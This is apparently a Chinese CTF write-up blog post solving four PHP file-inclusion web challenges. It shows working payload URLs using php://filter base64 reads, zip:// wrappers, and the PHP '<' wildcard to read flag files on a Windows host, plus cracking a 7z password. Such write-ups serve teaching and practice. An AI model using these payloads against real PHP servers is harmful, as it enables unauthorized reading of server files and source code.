<!--yml
category: 未分类
date: 2022-04-26 14:44:17
-->

# 西邮ctf2020 web之文件包含解析_落雪wink的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_44145452/article/details/109498277](https://blog.csdn.net/weixin_44145452/article/details/109498277)

## 比赛地址：`http://39.97.182.97/`

这四道考题都是利用的php伪协议 参考[php伪协议，利用文件包含漏洞](https://blog.csdn.net/qq_41289254/article/details/81388343?utm_source=app)

直接构造

```
http://watcem.top/wangzhan/27.php?file=flag.txt 
```

得到flag



尝试构造 http://watcem.top/wangzhan/26.php?file=flag.php
发现需要用base64来解码
使用php://filter构造

```
http://watcem.top/wangzhan/26.php?file=php://filter/read=convert.base64-encode/resource=flag.php 
```

得到base64加密过的字符串

base64解密得到flag
flag{fa8a8853b970c0f82bda58648ce1292a}

这题好**难 刚开始做没思路还是问的大佬才写出来

题中提示flag在桌面，然后试图构造桌面路径

```
http://watcem.top/ctf/2/2.php?file=C:\Users\Administrator\Desktop\flag.< 
```

之后在页面上发现回显，是.7z文件


注：这里有一个知识点 PHP中的(<) 相当于通配符符号(*)
确定是.7z文件后，重新构造url

```
http://watcem.top/ctf/2/2.php?file=zip://C:\Users\Administrator\Desktop\flag.zip%23flag.txt 
```

%23是#，经过转义在win上就要用%23
得到flag
我好菜阿巴阿巴

发现页面是这个，甜甜的文件- -


2333太甜了
构造 查找在桌面上的含有flag的文件

```
http://watcem.top/ctf/3/3.php?file=C:\Users\Administrator\Desktop\flag.< 
```

得到回显 可以看到l.7z文件中含有flag.txt文本
再构造，尝试打开flag.txt
构造一个发现没反应http://watcem.top/ctf/3/3.php?file=C:\Users\Administrator\Desktop\flag.7z%23flag.txt
试试base64解码

```
http://watcem.top/ctf/3/3.php?file=php://filter/convert.base64-encode/resource=file://C:\Users\Administrator\Desktop\flag.7z 
```

页面下方显示一串字符~

```
N3q8ryccAATAe6mrIAAAAAAAAABqAAAAAAAAADAECf7cQ+YDVIG3ANMRbxs5ucbqTnBjZLGyzsSyPyqWlpRLnwEEBgABCSAABwsBAAIkBvEHAQpTB+KCpw0d1h3bISEBAAEADBgUAAgKAbRFbLcAAAUBGQkAAAAAAAAAAAAREwBmAGwAYQBnAC4AdAB4AHQAAAAZABQKAQDAKZRq7KbWARUGAQAgAAAAAAA= 
```

base64解码发现没解出来，艹（一种植物）
把他们扔到010editor中，使用DecodeBase64脚本解码
保存为1.7z 打开发现有密码
看题上提示是3位数 纯数字密码，随便试下发现密码是123，当然也可以爆破 打开flag.txt 得到flag

题太难了，我是five，本人很菜，如果有写的不对的地方欢迎大佬们评论区留言指正
参考链接：[https://www.cnblogs.com/-mo-/p/11736445.html](https://www.cnblogs.com/-mo-/p/11736445.html)
[https://blog.csdn.net/qq_41289254/article/details/81388343?utm_source=app](https://blog.csdn.net/qq_41289254/article/details/81388343?utm_source=app)